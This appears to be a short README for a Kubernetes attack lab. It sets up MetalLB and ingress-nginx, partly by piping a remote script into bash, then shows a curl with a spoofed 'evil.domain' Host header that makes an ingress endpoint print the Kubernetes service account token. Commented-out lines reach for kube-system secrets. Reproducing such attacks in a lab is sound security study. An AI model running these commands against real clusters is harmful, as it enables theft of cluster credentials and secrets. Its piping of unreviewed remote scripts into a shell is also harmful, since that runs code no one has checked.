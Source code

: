 # Setup

```bash
bash <(curl -fsSL https://k8s.adriansoftware.de/metallb.sh)
helm repo add ingress-nginx https://kubernetes.github.io/ingress-nginx
helm repo update
helm upgrade --install ingress-nginx ingress-nginx/ingress-nginx --version 4.7.1
kubectl apply -f https://k8s.adriansoftware.de/attacks/02/setup.yaml
```

# Attack

from host

```bash
sudo ip route add 192.168.101.0/24 via 192.168.122.216

curl -H "Host: evil.domain" http://192.168.101.1/gettoken
# prints the kubernetes service account token
```

Change url ingress as required !!! .0 or .1

## Normal behavior

```bash
curl -H "Host: foo.bar" http://192.168.101.1 # prints 404
```

<!-- curl -H "Host: kubernetes.api" http://192.168.101.1/api/v1/namespaces/kube-system/secrets/ -->
<!-- curl -H "Host: evil.domain" http://127.0.0.1:8080/gettoken  -->
